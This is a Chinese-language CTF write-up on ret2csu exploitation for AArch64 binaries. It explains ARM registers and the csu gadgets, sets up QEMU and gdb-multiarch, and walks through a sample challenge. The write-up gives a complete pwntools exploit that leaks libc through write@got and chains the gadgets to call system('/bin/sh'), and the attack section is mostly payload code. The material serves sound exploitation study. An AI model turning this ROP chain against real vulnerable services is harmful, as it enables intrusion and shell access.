

ARM架构下ret2csu利用

- - -

# ARM架构下ret2csu利用

### ARM前置知识

##### ARM架构寄存器介绍：

​**r0-r3寄存器：** 前四个参数按顺序分别存储在r0、r1、r2和r3中

**r4-r11寄存器：** 如果函数需要使用超过四个参数，额外的参数会被存储在r4到r11寄存器中

**r12寄存器：** 也被称为Intra-Procedure-call scratch register，用于在函数调用中保存临时值

**r13寄存器：** 堆栈指针（SP），用于指向当前堆栈的顶部

**r14寄存器：** 链接寄存器（LR），用于保存返回地址

**r15寄存器：** 程序计数器（PC），包含当前正在执行的指令的地址

‍

##### ARM和x86架构寄存器的对比：

1.  **通用寄存器**
2.  ARM: R0-R12,共13个
3.  x86: EAX,EBX,ECX,EDX等,共8个
    
4.  **栈指针寄存器**
    
5.  ARM: SP(R13),专门的栈指针寄存器
    
6.  x86: ESP,通用寄存器之一充当栈指针
    
7.  **程序计数器**
    
8.  ARM: PC(R15),专门的程序计数器
    
9.  x86: EIP,通用寄存器之一充当程序计数器

##### 常见的ARM汇编指令：

1.  **数据处理指令：**
    
    -   ​`MOV`​：数据传送指令，将一个寄存器的值传送到另一个寄存器
    -   ​`ADD`​、`SUB`​、`MUL`​、`DIV`​：加法、减法、乘法、除法指令
    -   ​`AND`​、`ORR`​、`EOR`​、`BIC`​：按位与、按位或、按位异或、位清除指令
    -   ​`LSL`​、`LSR`​、`ASR`​、`ROR`​：逻辑左移、逻辑右移、算术右移、循环右移指令
2.  **分支和跳转指令：**
    
    -   ​`B`​：无条件分支
    -   ​`BL`​：带链接的无条件分支，用于函数调用，保存返回地址
    -   ​`BEQ`​、`BNE`​、`BGT`​、`BLT`​：条件分支，根据条件码选择是否分支
    -   ​`BX`​：分支并切换指令集（Thumb和ARM）
3.  **访存指令：**
    
    -   ​`LDR`​：从内存加载数据到寄存器
    -   ​`STR`​：将寄存器的值存储到内存
    -   ​`LDM`​：多寄存器加载
    -   ​`STM`​：多寄存器存储
4.  **协处理器指令：**
    
    -   ​`MRC`​、`MCR`​：协处理器数据传送指令
    -   ​`CDP`​、`LDC`​、`STC`​：协处理器数据处理指令

‍

### ARM架构下的csu利用与x86架构下的有很多相似的点

###### x86:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183607-1df5b906-8535-1.png)

###### arm:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183611-206ad9c8-8535-1.png)

‍

###### 首先看一下gadget1：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183615-229cc6b6-8535-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183619-24ed32d4-8535-1.png)

```plain
LDP             X19, X20, [SP,#var_s10]
LDP             X21, X22, [SP,#var_s20]
LDP             X23, X24, [SP,#var_s30]
LDP             X29, X30, [SP+var_s0],#0x40              
RET
```

‍

​`ldp指令`​​: load address pair 读取一对地址

`LDP X19, X20, [SP,#var_s10]`​会将`SP+var_s10`​地址的内容给到X19和X20寄存器

其中`X19`​​传入`SP+var_s10`​​的内容，`X20`​​传入`SP+var_s10`​​+0x8的内容

​`LDP X29, X30, [SP+var_s0],#0x40`​​会再`SP+var_s0`​​地址的内容传给X29和X30寄存器后，再将sp指针增加0x40字节

​`ret`​​ 返回到x30寄存器所存储的值

‍

x30过程链接寄存器PLR (Produce Link Register) ，x30寄存器存放的是函数的返回地址

当ret指令执行时刻，会寻找x30寄存器保存的地址值

‍

###### gadget2:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183626-291e5d42-8535-1.png)

```plain
LDR             X3, [X21,X19,LSL#3]
MOV             X2, X24
ADD             X19, X19, #1
MOV             X1, X23
MOV             W0, W22
BLR             X3

CMP             X20, X19
B.NE            loc_4007F0
```

前四个参数存储在寄存器x0-x3中

​`LDR X3, [X21,X19,LSL#3]`​​​​将X19逻辑左移3位后，再加上X21寄存器的值，然后赋给X3

​`BLR X3`​会跳转到X3储存的地址，并将下一指令的地址存到X30寄存器中

​

​

### ARM环境搭建

#### 安装QEMU

可以去运行静态链接的ARM架构的程序

```plain
sudo apt install qemu-system
sudo apt install qemu-user
```

但如果是动态链接的程序，QEMU会找不到对应的动态链接库，这需要我们安装对应架构的共享库

```plain
apt search "libc6-" | grep "AARCH64"
```

动态链接程序用QEMU运行需要指定动态链接库的路径

```plain
qemu-aarch64 -L /usr/aarch64-linux-gnu ./pwn
```

‍

#### 安装gdb-multiarch

```plain
apt install gdb-multiarch
```

可以使用 qemu 的 -g 指定端口

```plain
qemu-aarch64 -g 8001 -L /usr/aarch64-linux-gnu ./pwn
```

使用gdb-multiarch的remote功能进行调试

```plain
pwndbg> target remote localhost:8001
```

‍

#### 交叉编译工具链

###### 下载工具链环境

[Downloads | GNU-A Downloads – Arm Developer](https://developer.arm.com/downloads/-/gnu-a)

访问ARM官方提供的工具链环境，下载工具包，来配置交叉编译器

-   [gcc-arm-10.3-2021.07-mingw-w64-i686-arm-none-linux-gnueabihf.tar.xz](https://developer.arm.com/-/media/Files/downloads/gnu-a/10.3-2021.07/binrel/gcc-arm-10.3-2021.07-mingw-w64-i686-arm-none-linux-gnueabihf.tar.xz?rev=7aaf412fd15942caacb5129fcd0830c6&hash=EB4720D780C026FE39E8548494598BB3)

###### 解压配置环境变量

```plain
xz -d gcc-arm-10.3-2021.07-aarch64-arm-none-linux-gnueabihf.tar.xz
tar -xvf gcc-arm-10.3-2021.07-aarch64-arm-none-linux-gnueabihf.tar
```

添加环境变量

```plain
vim /etc/bash.bashrc
```

```plain
export PATH=$PATH:/root/Download/gcc-arm-10.3-2021.07-aarch64-arm-none-linux-gnueabihf/bin
```

```plain
source /etc/profile
```

查看环境是否搭建成功：

```plain
arm-none-linux-gnueabihf-gcc -v
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183635-2e4aa186-8535-1.png)

用法：

```plain
from pwn import *
import os

context.arch = 'arm64'

def dbg():
    os.system('gnome -x sh -c "gdb-multiarch pwn -ex \'target remote 127.0.0.1:7000\'"')

p = process(['qemu-aarch64','-g','7000','-L','/usr/aarch64-linux-gnu/','./pwn'])

libcso = '/usr/aarch64-linux-gnu/lib/libc.so.6'
libc = ELF(libcso)
#libc = elf.libc
elf = ELF(name)

p.recvuntil('Hello, World\n')
dbg()

p.interactive()
```

‍

‍

### 例题bpc\_csu

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183640-3133166c-8535-1.png)

‍

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183644-33974fc2-8535-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183647-35c56a7c-8535-1.png)

‍

开始布置`write(1,write@got.plt,0x8)`​，来获取libc基址

```plain
pl = b'a'*0x88 + p64(g1) #x29  x30
pl+= p64(main) + p64(0x100000000) #其实这里写什么都无所谓，主要是起个抬栈作用
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(elf.got['write']) + p64(1) ##x21 --addr  x22 --x0
pl+= p64(elf.got['write']) + p64(0x8) #x23 --x1  x24 --x2
pl+= p64(0) +p64(main) #x29   x30
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183657-3b89a9b4-8535-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183701-3df90ec4-8535-1.png)

因为read读入的空间，我们的sp抬了0x90

ret: 0x400798

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183706-41351312-8535-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183711-43cf923c-8535-1.png)

这里执行后sp+0x20

ret: g1

跳转到g1后我们可以发现sp的值，我们的布置可以使g2可以放入x30

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183745-58109fb6-8535-1.png)

执行完g1

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183749-5a5c3578-8535-1.png)

执行完g2

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183753-5d4870bc-8535-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183757-5f4f39e0-8535-1.png)

布置好了`write(1,write@got.plt,0x8)`​

跳转到x3 -> write，开始leak

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183801-618b118e-8535-1.png)

```plain
write_addr = uu64(r(6))
li('write_addr'+hex(write_addr))
libcbase = write_addr - libc.sym['write']
li('libcbase'+hex(libcbase))
system = libcbase + libc.sym['system']
li('system'+hex(system))
```

获取了libc基址后，我们就可以布置`read(0,bss+0x100,0x20)`​来送入shellcode

```plain
pl = b'a'*0x88 + p64(g1) #x29  x30
pl+= p64(main) + p64(0x100000000) 
pl+= p64(0) + p64(g2) #g1: x29   x30
pl+= p64(0) + p64(1) #g1: x19 --0   x20 --1
pl+= p64(elf.got['read']) + p64(0) #g1: x21 --addr  x22 --x0
pl+= p64(bss1) + p64(0x20) #g1: x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
```

pl送入

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183806-648c299a-8535-1.png)

g1执行完

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183809-66493750-8535-1.png)

g2执行完

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183812-6896fcae-8535-1.png)

布置好了`read(1,bss+0x100,0x20)`​后，将shellcode送入

```plain
pause()
p.sendline(p64(system)+b'/bin/sh\x00')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183817-6b0f12aa-8535-1.png)

下面跳到main

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183820-6cef38e8-8535-1.png)

布置`system('/bin/sh',0,0)`​

```plain
pl = b'a'*0x88 + p64(g1) 
pl+= p64(main) + p64(0x100000000) 
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(bss1) + p64(bss1+8) #x21 --addr  x22 --x0
pl+= p64(0) + p64(0) #x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
p.sendlineafter('Hello, World\n',pl)
```

执行g1

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183824-6f565db4-8535-1.png)

执行g2

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183827-70f94cf8-8535-1.png)

执行`system('/bin/sh',0,0)`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117183830-73327a80-8535-1.png)

##### exp：

```plain
from pwn import *
import os

context(os = "linux", arch = 'aarch64', log_level = 'debug')

def dbg():
    os.system('gnome-terminal -x sh -c "gdb-multiarch pwn -ex \'target remote 127.0.0.1:7010\' "')
    pause()


p = process(['qemu-aarch64','-g','7010','-L','/usr/aarch64-linux-gnu/','./pwn'])
#p = process(['qemu-aarch64','-L','/usr/aarch64-linux-gnu/','./pwn'])

elf = ELF("./pwn")
libcso = '/usr/aarch64-linux-gnu/lib/libc.so.6'
libc = ELF(libcso)


context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


def arm_csu():
    pl = b'a'*0x88+p64(g1)
    pl += p64()
    pl += p64()
    pl += p64(0xdeadbeef)   #x29
    pl += p64(g2)       #x30

    pl += p64(0)    #x19 --0
    pl += p64(1)    #x20 --0


    pl += p64(read_addr)    #x21 --addr
    pl += p64(0)        #x22 --x0


    pl += p64(bss+0x100)    #x23 --x1
    pl += p64(0x40) #x24 --x2

    pl += p64(0xdeadbeef)   #x29
    pl += p64(main) #x30

g1 = 0x400810
g2 = 0x4007F0
main = 0x40076c
bss1 = 0x0411140 #bss+0x100


pl = b'a'*0x88 + p64(g1) 
pl+= p64(7) + p64(7) #main , 0x100000000
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(elf.got['write']) + p64(1) ##x21 --addr  x22 --x0
pl+= p64(elf.got['write']) + p64(0x8) #x23 --x1  x24 --x2
pl+= p64(0) +p64(main) #x29   x30

p.sendlineafter('Hello, World\n',pl)


write_addr = uu64(r(6))
li('write_addr'+hex(write_addr))
libcbase = write_addr - libc.sym['write']
li('libcbase'+hex(libcbase))
system = libcbase + libc.sym['system']
li('system'+hex(system))


pl = b'a'*0x88 + p64(g1) 
pl+= p64(7) + p64(7) 
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(elf.got['read']) + p64(0) #x21 --addr  x22 --x0
pl+= p64(bss1) + p64(0x20) #x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30

p.sendlineafter('Hello, World\n',pl)

p.sendline(p64(system)+b'/bin/sh\x00')


pl = b'a'*0x88 + p64(g1) 
pl+= p64(7) + p64(7) 
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(bss1) + p64(bss1+8) #x21 --addr  x22 --x0
pl+= p64(0) + p64(0) #x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
p.sendlineafter('Hello, World\n',pl)

p.interactive()
```

‍

arm.zip (0.003 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231117184041-c0fa8bae-8535-1.zip)
